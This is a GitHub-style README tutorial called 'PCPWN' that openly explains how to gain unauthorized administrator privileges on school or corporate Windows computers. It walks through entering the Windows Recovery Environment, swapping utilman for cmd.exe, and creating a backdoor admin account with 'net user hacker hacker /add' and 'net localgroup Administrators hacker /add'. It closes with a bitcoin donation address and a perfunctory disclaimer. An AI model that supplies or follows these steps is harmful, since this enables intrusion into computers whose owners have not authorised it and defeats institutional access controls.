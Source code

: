 
<p align="center">
<img src="https://cdn-icons-png.flaticon.com/512/207/207130.png", width="200", height="200">
</p>

<h1 align="center"> [ PCPWN ]</h1>
<h4 align="center">How can I obtain administrative privileges on a school computer
</h4>

### DESCRIPTION
PCPWN is an informative tutorial that guides you through the process of gaining unauthorized access to administrative privileges on a computer within a school or corporate environment, all without relying on the pre-existing company-created admin account.

### 1. Access Windows RE (Recovery Environment):
  Start by accessing recovery mode on the target system.
    
  #### When the computer is turned off:

        Press and hold the Windows Key and press the power button.
        Release both keys.

 #### From the Windows Logon screen:
        Click the Power Button icon.
        Hold the SHIFT Key and click Restart.

  Select "Repair Your Computer," then navigate to "Troubleshoot," and finally, select "Command Prompt."

### 2. Utilizing Command Prompt:
    In the Command Prompt, type notepad to open the Notepad text editor.
    select file | click save as | select this pc | select all files |

### 3. Changing Utilman to CMD:
    Navigate to drive X (replace X with the appropriate drive).
    Go to System32 and rename cmd to utilman.
    Exit the Command Prompt.

### 4. Adding a User Account:
    Return to the login screen and click on "Ease of Access Icon."
    Type the following command: 
    net user hacker hacker /add 
    net localgroup Administrators hacker /add
   
### 5. Logging In with the New Account with admin priv:
    Log in with your non-administrator account.
    Open PowerShell as an administrator.
    Type username: DOMAIN\hacker password: hacker

### TESTED ON FOLLOWING
* Windows 11
* Windows 10
* Windows 7

## Support

If you find my work helpful and want to support me, consider making a donation. Your contribution will help me continue working on open-source projects.

**Bitcoin Address: `36ALguYpTgFF3RztL4h2uFb3cRMzQALAcm`**
   
<h1 align="center"> DISCLAIMER </h1>

<h4 align="center">I'm not responsible for anything you do with this tutorial, so please only use it for good and educational purposes. </h4>


